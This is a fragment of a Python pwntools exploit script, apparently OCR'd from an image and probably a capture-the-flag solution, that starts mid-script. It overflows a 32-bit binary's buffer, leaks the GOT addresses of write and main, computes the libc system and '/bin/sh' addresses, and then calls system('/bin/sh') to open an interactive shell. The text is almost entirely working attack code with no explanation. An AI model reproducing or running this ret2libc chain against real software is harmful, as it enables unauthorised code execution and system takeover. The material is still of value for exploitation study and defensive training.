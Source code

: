 ```python
payload += p32(1)
payload += p32(write_got)
payload += p32(4)
payload += "AAAA" * 8
p.write(payload)
write_addr = u32(p.recv(4))
# print hex(write_addr)

payload = "A"*0x6c
payload += "BBBB"
payload += p32(0x0804855A)
payload += p32(1)
payload += p32(main_got)
payload += p32(4)
payload += "AAAA" * 8
p.write(payload)
main_addr = u32(p.recv(4))
# print hex(main_addr)

open_addr = write_addr - libc_write + libc_open
execve_addr = write_addr - libc_write + libc_execve
# print hex(execve_addr)
system_addr = libc_system - libc_write + write_addr
sh_addr = libc_sh - libc_write + write_addr
# print hex(system_addr)
print hex(sh_addr-8843)
sh_addr = sh_addr-8843

payload = "A"*0x6c
payload += "BBBB"
payload += p32(0x0804855A)
payload += p32(1)
payload += p32(sh_addr)
# payload += p32((main_addr&0xfffff000)-0x1000*25)
# payload += p32(0x1ac700+0x3860)
payload += p32(20)
payload += "AAAA" * 8
p.write(payload)
"""
with open("find_system", "wb") as fp:
    fp.write(p.recvall(timeout=100))
"""
payload = "A"*0x6c
payload += "BBBB"
system_addr = sh_addr-0x11ee49
payload += p32(system_addr)
payload += p32(0xdeadbeef)
payload += p32(sh_addr)
p.write(payload)

p.interactive()
```
